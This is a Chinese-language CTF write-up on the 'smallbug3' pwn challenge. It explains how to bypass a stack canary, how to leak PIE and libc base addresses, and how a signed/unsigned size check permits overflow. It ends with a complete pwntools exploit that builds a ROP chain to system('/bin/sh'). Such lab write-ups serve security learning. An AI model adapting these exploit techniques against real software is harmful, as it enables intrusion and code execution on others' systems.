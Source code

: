 ```yaml
---
title: smallbug3
data: 2019-07-18
categories:
- sundry
tags: stack  canary  pie 
---
```


**<font style="font-size:25px">绕过canary & 确定基址</font>**

# Canary

## 概念

canary是一个保护机制，具体的实现，是在**ebp和esp**之间放入一个canary值，在程序结束的时候判断是否被更改，改变则通过__stack_chk_fail结束当前进程。一定程度上可以防止栈溢出攻击。
![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718130832_82SPi.png)    
注意这里的var_8,就是放canary值的偏移。   

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718124702_rz8kk.png)

## 特性

占用一个字的大小，canary值的最低位一定是\x00。

## 绕过方法

### 劫持__stack_chk_fail

canary被改写后，程序流程就会经过__stack_chk_fail退出程序。如果将这个函数劫持    
- 例如更改got表

就可以在canary检查失败后劫持程序。   

### 泄露canary值

canary保护机制仅仅检查canary的值是否被篡改，而不会检查栈的其他内容。因此如果每次栈溢出的时候覆盖为相同的值就可以通过检查。   

#### 如何泄露

canary在存储时的最高位（小端序）是'\x00'，会截断canary值和前面的内容。只要将'\x00'覆盖成不会截断字符串打印的值，就可以通过打印字符串的形式得到当前canary值。

#### canary的生成

同一个线程里面的canary值是相同的。

### 爆破

还没试过。与`fork()`这个函数和线程有关。

### 覆盖与栈中canary值进行比较的值

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718131614_PjAaf.png)

# 思路

## 漏洞点

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718132149_Z3Anv.png)   

程序在判断大小的时候nbytes是做的有符号数，而在read中做参数的时候是无符号数。输入负数即可绕过判断进行栈溢出。

## 流程

这个二进制文件checksec一下会发现所有的保护都开了。   
`FULL RELRO`意味着没法改got表，所以要泄露canary的值。
要进行三次栈溢出。  
- 打印canary的值& 泄露程序基址
- 泄露libc基址
- getshell

### 程序基址怎么泄露


我暂时还没有找到相关资料，但是我打开了一些二进制文件，发现在main函数里面的时候：
- 32位的ebp指向的栈里保存的是0x0
- 64位的rbp指向的栈里保存的是__libc_csu_init的地址。
- 我还搞不清楚的是为什么__libc_csu_init的地址不是7f开头而是与程序加载基址有关。
    - 2019/7/20 补充：这是一个程序自带的函数。不是动态链接库里面的。

我们如果用这个想法来看这个程序的rbp，  

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718140553_Xj5Cz.png)    

虽然他去符号化了，但是按照这个思路来说，就可以根据__libc_csu_init的地址找到main的地址。
```python
main_addr = __libc_csu_init_addr & (~0xfff) + 0x9cc
```
`0x9cc` 是从ida里面看的main地址。因为他开了pie，所以这个只是一个偏移地址。程序加载基址是`__libc_csu_init_addr & (~0xfff)`

**<font style="font-size:30px"> 待补充原因</font>**

### libc基址怎么泄露

使用puts打印出puts@got的内容。

### getshell

可以使用one_gadget,也可以直接构造`system('/bin/sh')`,但是如果打远程的话需要知道libc的版本。  

系统中断不行，找不到int 0x80。   

### 注意点

1. 程序是64位，采用寄存器传参，需要使用pop_rdi_ret。
2. 地址低位为`\x00`时在`u64()`的前面补`\x00`，高位则在后面。

## 坑

为什么gdb.attach的位置会影响exp？？？

# exp

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

sh = process('./smallbug3')
elf = ELF('./smallbug3')
libc = elf.libc

log.info("===================>fake size<=================")
sh.sendlineafter('name:\n',"-1")
log.info("===============>leak canary value<==============")
offset = 0x94 - 0x4 - 0x8
payload = 'A' * offset + 'B'

sh.sendafter('name:\n',payload)
sh.recvuntil("B")
canary = u64('\x00' + sh.recv(7))
print '-------------------{:#x}-----------------'.format(canary)

log.info("=============>leak process main addr <===========")
elf_base = u64( sh.recv(6) + '\x00\x00') & (~0xfff)
main_addr = elf_base + 0x9cc

log.info("===============>leak libc base<==================")
puts_got = elf.got['puts'] + elf_base
puts_plt = elf.plt['puts'] + elf_base
pop_rdi_ret = 0xb33 + elf_base

payload = 'A'* offset + p64(canary) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(puts_got) 
payload += p64(puts_plt) + p64(main_addr)


sh.sendlineafter('us:\n',payload)
libc_base = u64(sh.recvuntil('\x7f')[-6:]+'\x00\x00') - libc.symbols['puts']

print '-------------------main_addr:{:#x}-----------------'.format(main_addr)
print '-------------------libc_base:{:#x}-----------------'.format(libc_base)

log.info('===============>get shell<=======================')
 #one_gadget local_libc
one_gadget = libc_base + 0x4239e
system_addr = libc_base + libc.symbols['system']
bin_addr = libc_base + libc.search('/bin/sh').next()

sh.sendlineafter('name:\n',"-1")
sh.sendlineafter('name:\n','A' * 8)
#payload = 'A' * offset + p64(canary) + 'A' * 8 + p64(one_gadget)
payload = 'A' * offset + p64(canary) + 'A' * 8 + p64(pop_rdi_ret) + p64(bin_addr) + p64(system_addr)
sh.sendlineafter('us:\n',payload)

sh.interactive()
sh.close()
```